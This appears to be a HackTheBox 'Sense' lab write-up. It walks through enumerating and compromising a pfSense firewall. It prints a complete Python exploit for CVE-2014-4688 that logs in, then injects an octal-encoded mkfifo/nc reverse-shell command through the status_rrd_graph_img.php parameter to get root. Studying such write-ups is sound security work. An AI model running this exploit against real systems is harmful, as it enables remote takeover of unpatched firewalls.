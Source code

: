 # HackTheBox - Sense Writeup


## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,443 -sCV -oN nmap/sense 10.10.10.60

80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

Well, only `2` ports are open, which is port `80` and `443`. Based on the port and service itself, looks like I'm dealing with the webserver this time. However, the scan results show me that the `url` on port `80` has been redirected to port `443` which is the `HTTPS` port.

## Https: Pfsense
I've navigated to port `443` on my browser and accepted the `SSL` certificates. I'll check the certificate and nothing useful for me. Turn's out, it is a [Pfsense](https://www.pfsense.org/) login page. Then, I'll try login in with the default credentials which is `admin:pfsense` and nothing unveil. By the look at the `index` page extension, this is a `PHP` webpage.

![pfsense login page](login-page.png "pfsense login page")

### Gobuster
Then, I run the [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. Unfortunately, I can't find anything useful and it's just found empty directories. So, I ended up putting a bunch of extensions such as `php,txt,html,cgi` for the second scan, and it manage to find "gold".

![gobuster](gobuster-scan.png "gobuster")

### Https: /changelog.txt
The first file that caught my attention is called `changelog.txt`. Upon expecting the file it says `"2 of 3 vulnerabilities have been patched"`. This gives me an idea of this particular version having a severe flaw that hasn't been patched. I have 1/3 luck here, to find which one of the flaws is.

![changelog.txt](changelog-txt.png "changelog.txt")

### Https: /system-users.txt
Anyways, I've navigated to another text file called `system-users.txt` which leaks the username. However, the password says `"company defaults"`. Then, it makes me think it could be the box name which is `sense` just like [nibbles](https://shafiqaiman.com/hackthebox-nibbles-writeup/) box that I did before, or the default [Pfsense](https://www.pfsense.org/) credentials which is `pfsense`.

![found username](system-users-txt.png "found username")

### Https: Pfsense/Dashboard
I'll try both credentials and the correct one is `pfsense` and it looks just like a generic pfsense dashboard, what do I expect :). However, it has the version number sitting in front of me which is `2.1.3-RELEASE`.

![pfsense version](version-number.png "pfsense version")

## Foothold: CVE-2014-4688
Since this is an old box, I immediately find the exploit and cve with it. This vulnerability is assigned to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) and the description says `"this CVE assign to 3 vulnerabilty found in pfsense"`. However, one of them did not patch as the `changelog.txt` file expose to me. Luckily, I find this [exploit](https://www.exploit-db.com/exploits/43560) on [exploit-db](https://www.exploit-db.com/). Which explores the vulnerability in post-authentication in the `status_rrd_graph_img.php` page but again I want to be "l33t" and create my exploits by copying the existent exploits. (Why not? lol). Credited to Ryan McFarland aka [absolomb](https://www.absolomb.com/) and here are the results.

```python
#!/usr/bin/env python3
import sys
import argparse
import requests
from bs4 import BeautifulSoup as bs
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()
parser.add_argument('-U', '--username', metavar='', help='Username')
parser.add_argument('-P', '--password', metavar='', help='Password')
parser.add_argument('-r', '--rhost', metavar='', help='Remote IP')
parser.add_argument('-i', '--lhost', metavar='', help='Listening IP')
parser.add_argument('-p', '--lport', metavar='', help='Listening port')
args = parser.parse_args()

def get_csrf():
    req = requests.get(f"https://{args.rhost}/index.php", verify=False)
    soup = bs(req.text, features="lxml")
    csrf = soup.find('input', {'name':'__csrf_magic'})['value']
    return csrf

def payload(ip, port):
    payload = ""
    command = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {ip} {port} > /tmp/f"
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))
    return payload

if __name__ == '__main__':
    try:
        s = requests.Session()
        csrf = get_csrf()
        payload = payload(args.lhost, args.lport)

        data = {'__csrf_magic':csrf, 'usernamefld':args.username, 'passwordfld':args.password, 'login':'Login'}
        req = s.post(f"https://{args.rhost}/index.php", data=data, verify=False)
        print(f"LOGIN... {req.status_code}")

        print("Trying to exploit...")
        req = s.get(f"https://{args.rhost}/status_rrd_graph_img.php?database=queues;printf+'{payload}'|sh", verify=False)
        print("If you see this, it's doesn't work!")
    except (KeyboardInterrupt, requests.exceptions.ConnectionError) as Error:
        sys.exit()
```

![shell as root](root.png "shell as root")

BOOM! root baby! this is because firewall applications tend to be installed under root privilege.
